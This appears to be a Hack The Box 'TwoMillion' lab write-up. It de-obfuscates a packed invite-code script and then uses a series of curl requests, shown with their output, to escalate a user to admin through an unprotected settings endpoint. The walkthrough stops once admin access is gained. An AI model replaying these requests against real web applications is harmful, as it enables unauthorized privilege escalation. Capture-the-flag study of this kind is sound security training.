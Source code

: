 # TwoMillion


Found in the api **http://2million.htb//js/inviteapi.min.js**

```
eval(function(p,a,c,k,e,d){e=function(c){return c.toString(36)};if(!''.replace(/^/,String)){while(c--){d[c.toString(a)]=k[c]||c.toString(a)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('1 i(4){h 8={"4":4};$.9({a:"7",5:"6",g:8,b:\'/d/e/n\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}1 j(){$.9({a:"7",5:"6",b:\'/d/e/k/l/m\',c:1(0){3.2(0)},f:1(0){3.2(0)}})}',24,24,'response|function|log|console|code|dataType|json|POST|formData|ajax|type|url|success|api/v1|invite|error|data|var|verifyInviteCode|makeInviteCode|how|to|generate|verify'.split('|'),0,{}))
```

De-obfuscates to:

```
function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
 
url: '/api/v1/invite/how/to/generate',
        success: function (response) {
            console.log(response)
        },
        error: function (response) {
            console.log(response)
} })
}
```
```
curl -sX POST http://2million.htb/api/v1/invite/how/to/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."
}

```

Decrypting with rot13 gives ```


Doing a post request to the API gives us: **In order to generate the invite code, make a POST request to /api/v1/invite/generate**

```
curl -sX POST http://2million.htb/api/v1/invite/generate | jq
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "WUVNVEItQ0IxWE4tUTZHUFUtQUY2Q0U=",
    "format": "encoded"
  }
}

Base64 decoding:
```
```
echo WUVNVEItQ0IxWE4tUTZHUFUtQUY2Q0U= | base64 -d
YEMTB-CB1XN-Q6GPU-AF6CE
```

Now we can use this towards the 2million.htb/invite page:

<img width="396" height="289" alt="Screenshot 2025-09-07 at 17 47 06" src="https://github.com/user-attachments/assets/a7ef18a1-5770-4ed0-aa80-18b9f05e72f6" />

There is an access page where we can download a connection pack:

<img width="478" height="542" alt="Screenshot 2025-09-07 at 17 48 58" src="https://github.com/user-attachments/assets/17a22c18-067e-4e2b-906c-3151b659d946" />


Inspecting with burp we get the same api path as before: **/api/v1...**

Using curl along with our cookie to get some info on the api endpoints:

```
curl 2million.htb/api/v1 --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" | jq

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

Here we can check if our own account is set as admin with curl, generate VPN, and update user settings. We are not admin as expected, but that can change with a call to **/api/v1/admin/settings/update**.

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    53    0    53    0     0    425      0 --:--:-- --:--:-- --:--:--   427
{
  "status": "danger",
  "message": "Invalid content type."
}
```

Missing content type we add it:

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" | jq 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    56    0    56    0     0    436      0 --:--:-- --:--:-- --:--:--   437
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

Another clue, lets add email: 

```
(base) simonstrombackolofsson@Simons-Air HTB % curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data  '{"email":"test@test.test"}' | jq 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    85    0    59  100    26    488    215 --:--:-- --:--:-- --:--:--   708
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

Again...

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data  '{"email":"test@test.test","is_admin":true}' | jq 
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   118    0    76  100    42    628    347 --:--:-- --:--:-- --:--:--   975
{
  "status": "danger",
  "message": "Variable is_admin needs to be either 0 or 1."
}
```
Such a very generous api! Thank you for this very fine information!

```
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data  '{"email":"test@test.test","is_admin":1}' | jq   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    83    0    44  100    39    339    301 --:--:-- --:--:-- --:--:--   643
{
  "id": 18,
  "username": "testtest",
  "is_admin": 1
}
```
Finally!







